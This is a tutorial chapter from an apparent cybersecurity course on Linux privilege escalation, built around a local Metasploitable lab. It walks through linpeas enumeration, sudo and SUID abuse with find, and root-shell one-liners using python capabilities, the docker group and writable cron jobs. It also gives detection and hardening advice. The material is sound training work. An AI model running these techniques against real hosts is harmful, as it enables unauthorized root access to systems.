

<!-- SPDX-License-Identifier: GPL-3.0-or-later | Copyright (C) 2026 Nithees Narendra S -->
[Home](../../README.md) › [Offensive Security](README.md) › **Privilege Escalation**

# Privilege Escalation

Local escalation on Linux and Windows through misconfiguration, tokens and kernel bugs.

<div class="meta-row"><span class="badge b-advanced">Advanced</span><span class="badge">⌨ ~84 min hands-on</span><span class="badge">📖 ~28 min read</span><button id="lesson-complete" class="lesson-check"><span class="lbl">Mark complete</span></button></div>

**▶ Here to build, not read? Jump to the [Hands-On Practice](#hands-on-practice).**

**Prerequisites:** [Linux Security](../05-platforms/linux-security.md) · [Windows Security](../05-platforms/windows-security.md)

## Overview

Local escalation on Linux and Windows through misconfiguration, tokens and kernel bugs. In one line: privilege escalation decides where trust is placed, and misplaced trust is where the security problem lives. That's the theory you need — the understanding comes from doing it, so the walkthrough below is the heart of this chapter.

### How it works

Mechanically, privilege escalation comes down to three things: what data is trusted, where it crosses a boundary, and what happens on the other side. The diagram traces that path; you'll walk it for real, step by step, in the practice below.



<div class="card"><div class="card-title">🔑 Key terms</div>

- **Trust boundary** — where data or control passes between components of different privilege or trust.
- **Attack surface** — the set of points an attacker can interact with.
- **Primary control** — the single measure that most reduces this technique's impact.
- **Telemetry** — the log or signal a defender uses to detect the technique.

</div>

## Hands-On Practice

> [!TIP] This is the main event. Bring up the lab, then work the walkthrough — every command has a **▸ Run** button (needs the lab runner) and a **📋 Copy** button. ~84 min, Kali attacker, fully local.

**Mission.** From a www-data foothold to root via systematic enumeration and a misconfiguration.

```cf-lab
{"title": "Offensive Security", "section": "06-offensive-security", "targets": [["metasploitable", "boot-to-root Linux target (recon → exploit → loot)"], ["dvwa / juice-shop", "web foothold targets"], ["AD forest (optional)", "GOAD or a Windows Server eval VM for AD chapters — see notes"]], "compose": "# offsec-lab/docker-compose.yml  —  Offensive part environment\nservices:\n  target-linux:\n    image: tleemcjr/metasploitable2\n    networks: [labnet]\n    command: /bin/sh -c \"/etc/rc.local; tail -f /dev/null\"\n  target-web:\n    image: vulnerables/web-dvwa\n    ports: [\"8082:80\"]\n    networks: [labnet]\n\nnetworks:\n  labnet:\n    driver: bridge\n    internal: true"}
```

**Target for this lesson:** `target-linux` (Metasploitable) or any lab host where you have a low-priv shell. Full setup: [Offensive Security lab environment](README.md#lab-environment).

### Guided walkthrough

<div class="stepper">

```cf-step
{"n": 1, "goal": "Enumerate automatically", "cmd": "./linpeas.sh | tee linpeas.txt", "output": "Highlighted: sudo rights, SUID binaries, writable cron, kernel version.", "why": "linpeas surfaces candidates fast; you still verify each by hand.", "runnable": true}
```
```cf-step
{"n": 2, "goal": "Check sudo rights", "cmd": "sudo -l", "output": "(root) NOPASSWD: /usr/bin/find", "why": "A binary you can run as root is a direct path if it can spawn a shell.", "runnable": true}
```
```cf-step
{"n": 3, "goal": "Abuse it (GTFOBins)", "cmd": "sudo find . -exec /bin/sh -p \\; -quit", "output": "# whoami → root", "why": "find can execute commands; run as root it hands you a root shell.", "runnable": true}
```
```cf-step
{"n": 4, "goal": "Alternative: SUID", "cmd": "find / -perm -4000 -type f 2>/dev/null", "output": "/usr/bin/... an unexpected SUID binary", "why": "SUID-root binaries run as root; GTFOBins lists which ones give a shell.", "runnable": true}
```
```cf-step
{"n": 5, "goal": "Harden", "cmd": "# remove NOPASSWD, strip needless SUID bits, patch the kernel", "output": "sudo -l no longer lists a shell-capable binary; the path is closed.", "why": "Least privilege on sudo and SUID removes the most common Linux privesc paths.", "runnable": false}
```

</div>

### Live terminal

```cf-terminal
{"title": "kali@privilege-escalation — start the lab runner for a live shell"}
```

### Try it yourself

> [!NOTE] Try each for real. Open the hint only when stuck, the solution only to check.

**Challenge 1.** Escalate via a writable cron job instead of sudo.

<details><summary>Hint</summary>

Find a root cron running a script you can edit.

</details>
<details><summary>Solution</summary>

Append a reverse shell / `chmod +s /bin/bash` to the writable script and wait for the cron tick.

</details>

**Challenge 2.** Escalate using a Linux capability rather than SUID.

<details><summary>Hint</summary>

`getcap -r / 2>/dev/null`.

</details>
<details><summary>Solution</summary>

A binary with `cap_setuid+ep` (e.g. python) → `python -c 'import os;os.setuid(0);os.system("/bin/bash")'`.

</details>

**Challenge 3.** You're in the `docker` group but not root — get root.

<details><summary>Hint</summary>

The docker group is root-equivalent.

</details>
<details><summary>Solution</summary>

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh` mounts the host filesystem as root.

</details>

### Quick quiz

```cf-quiz
{"q": "`sudo -l` shows `(root) NOPASSWD: /usr/bin/find`. Why is that a win?", "options": ["find is fast", "find can execute commands, so `-exec /bin/sh` runs as root", "find reads /etc/shadow", "It isn't exploitable"], "answer": 1, "explain": "find's -exec runs arbitrary commands; run as root via sudo it spawns a root shell (a classic GTFOBins vector)."}
```

### Detect & defend (blue-team view)

- auditd/Sysmon: a web-service user spawning a root shell, or execution of SUID binaries by service accounts.
- Alert on writes to cron directories and on new SUID files (baseline them).

### Skills check

You can move on when you can, without notes:

- [ ] Enumerate a host for privesc vectors methodically.
- [ ] Exploit sudo/SUID/capabilities/docker-group misconfigurations.
- [ ] Recommend the specific hardening that closes each vector.

## Check Yourself

_Quick self-test — answers hidden. If you can't answer without notes, redo the relevant walkthrough step._

**Q1. In one sentence, what security problem does Privilege Escalation address or create?**

<details><summary>Show answer</summary>

Privilege Escalation matters because its behaviour determines where trust is placed; misplacing that trust is the root of the associated bug class.

</details>

**Q2. Name one trust boundary involved in Privilege Escalation and what crosses it.**

<details><summary>Show answer</summary>

Any point where attacker-influenced data meets privileged processing — e.g. user input reaching an interpreter, or a token reaching a verifier.

</details>

**Q3. Give one attack against Privilege Escalation and the single control that most reduces its impact.**

<details><summary>Show answer</summary>

State the attack precisely, then the *primary* control (validation, encoding, isolation, authentication, or least privilege) — not a laundry list.

</details>

**Interview angles**

- Walk me through how Privilege Escalation works, then tell me where you would attack it.
- How would you detect Privilege Escalation being abused in an environment you defend?
- What is the difference between mitigating and eliminating the risk associated with Privilege Escalation?

## Pitfalls & Best Practice

**Common mistakes**

- Treating privilege escalation as a checkbox instead of understanding the mechanism — defences copied without comprehension fail silently.
- Trusting client-side or default controls to enforce a server-side security property.
- Testing only the happy path and never the abuse cases or malformed input.
- Fixing the symptom (one payload) instead of the class (the missing control).

**Do this instead**

- Push security decisions to a single, well-tested enforcement point rather than scattering checks.
- Fail closed: when in doubt, deny and log, so misconfiguration reduces access rather than expanding it.
- Instrument the trust boundaries so the same event is visible to offence (as a target) and defence (as a signal).
- Validate your understanding of privilege escalation empirically in the lab before trusting it in production.
- Prefer safe, high-level APIs and secure defaults over hand-rolled primitives.

## Reference

### MITRE ATT&CK Mapping

| Technique | ID |
| --- | --- |
| ATT&CK technique | [T1068](https://attack.mitre.org/techniques/T1068/) |
| ATT&CK technique | [T1548](https://attack.mitre.org/techniques/T1548/) |
| ATT&CK technique | [T1055](https://attack.mitre.org/techniques/T1055/) |
| ATT&CK technique | [T1078](https://attack.mitre.org/techniques/T1078/) |

### OWASP Mapping

- See [OWASP Top 10](../03-web-security/owasp-top-10.md) for the relevant category when this applies to web systems.

### CWE Mapping

- No direct weakness ID; when this concept fails in code it usually surfaces as one of the [CWE Top 25](../04-vulnerabilities/cwe-top-25.md) entries.

### CAPEC Mapping

- No single attack pattern; see the [CAPEC](../14-threat-intelligence/capec.md) chapter to map behaviour to patterns.

### CVE References

- No canonical CVE for a concept page. Search the [NVD](https://nvd.nist.gov/) for concrete instances when studying real cases.

### NIST References

- [NIST CSRC Publications](https://csrc.nist.gov/publications) — search for the control family or guide relevant to this topic.

### RFC References

- No governing RFC for this topic. Where a protocol is involved, its RFC is linked from the relevant networking chapter.

### Research Papers

- *Reflections on Trusting Trust* — Ken Thompson, 1984
- *Smashing the Stack for Fun and Profit* — Aleph One, Phrack 49, 1996
- *The Protection of Information in Computer Systems* — Saltzer & Schroeder, 1975

### Books

- *The Hacker Playbook 3* — Peter Kim
- *Penetration Testing* — Georgia Weidman
- *Red Team Field Manual (RTFM)* — Ben Clark
- *Advanced Penetration Testing* — Wil Allsopp

### Official Documentation

- [MITRE ATT&CK](https://attack.mitre.org/)
- [OWASP](https://owasp.org/)
- [NIST CSRC Publications](https://csrc.nist.gov/publications)

### Related Chapters

- [Offensive Security Methodology](offensive-methodology.md)
- [Reconnaissance](recon.md)
- [OSINT](osint.md)
- [Enumeration](enumeration.md)
- [Scanning](scanning.md)
- [Vulnerability Assessment](vulnerability-assessment.md)

---

_Part of the **Offensive Security** section of [Cybersecurity-Mastery](../../README.md). 🟠 Advanced · ~84 min hands-on · Last updated 2026-08-13._
